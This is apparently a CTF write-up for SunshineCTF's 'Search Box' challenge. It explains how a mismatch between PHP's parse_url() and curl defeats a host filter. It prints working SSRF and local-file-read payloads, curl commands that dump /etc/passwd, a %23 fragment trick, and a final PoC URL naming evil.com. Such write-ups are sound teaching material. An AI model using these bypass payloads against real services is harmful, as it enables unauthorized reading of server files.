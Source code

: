 ```yaml
---
title: SunshineCTF - Search Box Writeup
layout: post
date: '2018-04-10 08:00:00'
description: Writeup of Search Box
image: https://i.imgur.com/ImCQbcQ.png
tags:
- ctf
- writeup
author: Guilherme "k33r0k" Assmann
---
```

### SunshineCtf - Search Box Writeup

>"This search engine doesn't look very secure. Or well coded. Or competent in any way shape or form. This should be easy.
>
>Note: flag is in /etc/flag.txt
>
>http://search-box.web1.sunshinectf.org"

There was an input field in the page enabling us to send a request to any URL we wanted

![](https://i.imgur.com/vltSBlC.png)

![](https://i.imgur.com/wpr4QMb.png)

After some tries I noticed that the only accepted URL was "www.google.com". Obviously one of the first ideas I had was to try getting files via `file://` URI scheme, which was unsuccessful.

![](https://i.imgur.com/ImCQbcQ.png)

Just when I was giving up on the `file://` idea, I tried putting together the wrapper and the accepted domain:

![](https://i.imgur.com/gpuZAAn.png)

`"get source failed"`, oops, so the wrapper actually worked, only it couldn't find the `www.google.com` in the directories, meaning we had a host filter, confirmed by requesting...:

![](https://i.imgur.com/MnYZ7CY.png)

PHP's `parse_url()` will be used here so we can draw our conclusions after some simple tests:

```
php > $url = "file://www.google.com"; 
php > var_dump(parse_url($url));
 array(2) { 
	["scheme"]=> string(4) "file" 
	["host"]=> string(14) "www.google.com" 
}
```

Considering that our host must always be `www.google.com`, we must find a way to make a request to an internal file or at least try reaching the localhost.

```
php > $url = "http://127.0.0.1@www.google.com"; 
php > var_dump(parse_url($url)); 
array(3) { 
	["scheme"]=> string(4) "http" 
	["host"]=> string(14) "www.google.com" 
	["user"]=> string(9) "127.0.0.1" 
}
```

In the output above we are passing `127.0.0.1` as user, but the URL will be correctly evaluated even though `curl` won't find a matching username:

![](https://i.imgur.com/Q3N9nUN.png)

If the response had "Source code" in it, either we are at `127.0.0.1` and the bypass was successful or we are at `www.google.com`. To test both situations we can try reaching an internal file that we are sure exists, like `index.php` in the webroot

![](https://i.imgur.com/mPBmx5f.png)

Aaaaaand... it failed.

After a quick research and some tests I ran into another bypass in which we inform the `user@127.0.0.1` credentials along with a destination port, with `www.google.com` still being the host. However curl does not accept the same parameters that  `parse_url()` does, so the `parse_url()` practically has no security useness in this code:

```
php > $url = "http://user@127.0.0.1:80@www.google.com/index.php";
php > var_dump(parse_url($url));
array(5) { 
	["scheme"]=> string(4) "http" 
	["host"]=> string(14) "www.google.com" 
	["user"]=> string(14) "user@127.0.0.1" 
	["pass"]=> string(2) "80" 
	["path"]=> string(10) "/index.php" 
}
```

I also made a local test with some code in `/var/www/html/x.php`

```
$ curl -v "http://user@127.0.0.1:80@www.google.com/x.php" 
* Trying 127.0.0.1... 
* Connected to 127.0.0.1 (127.0.0.1) port 80 (#0) 
* Server auth using Basic with user 'user' 
> GET /x.php HTTP/1.1 
> Host: 127.0.0.1 
> Authorization: Basic dXNlcjo= 
> User-Agent: curl/7.47.0 
> Accept: */* 
> 
< HTTP/1.1 200 OK 
< Date: Sat, 07 Apr 2018 00:47:05 GMT 
< Server: Apache/2.4.18 (Ubuntu) 
< Content-Length: 11 
< Content-Type: text/html; charset=UTF-8 
< 
TEST SSRF 
* Connection #0 to host 127.0.0.1 left intact
```

Then I tried it on the server:

![](https://i.imgur.com/PZmUHgj.png) 

![](https://i.imgur.com/nYUEobv.png) 

The task told us that we needed to get the flag in `/etc/flag.txt` but there was no way to use `file://` URI scheme because no file was being read. That seemed awkward to me.

![](https://i.imgur.com/xJWLbbN.png)

I noticed that the end of each requested file a `/` was being concatenated to the request. I tested it using curl and compared the results:

```
$ curl -v "file://user@127.0.0.1:80@www.google.com/etc/passwd" 

root:x:0:0:root:/root:/bin/bash 
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin 
bin:x:2:2:bin:/bin:/usr/sbin/nologin
...
``` 

VS: 

```
$ curl -v "file://user@127.0.0.1:80@www.google.com/etc/passwd/"
* Couldn't open file /etc/passwd/ 
* Closing connection -1 
curl: (37) Couldn't open file /etc/passwd/
```

Then I tried adding a `#` to delimit the URL and curl accepted it...

```
$ curl -v "file://user@127.0.0.1:80@www.google.com/etc/passwd#/"
root:x:0:0:root:/root:/bin/bash 
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin 
bin:x:2:2:bin:/bin:/usr/sbin/nologin
...
```

but the application (using burp), didn't:

![](https://i.imgur.com/sn6lkYR.png)

So I took a more straightforward approach, using the `#` URL encoded representation `%23` and it worked:

![](https://i.imgur.com/W6BsOji.png)

![](https://i.imgur.com/BvHy36g.png)

Flag: `sun{R3quE5t_tyP3S_m4tT3r}`

Final PoC: `file://user@evil.com:80@www.google.com//var/www/html/index.php%23`
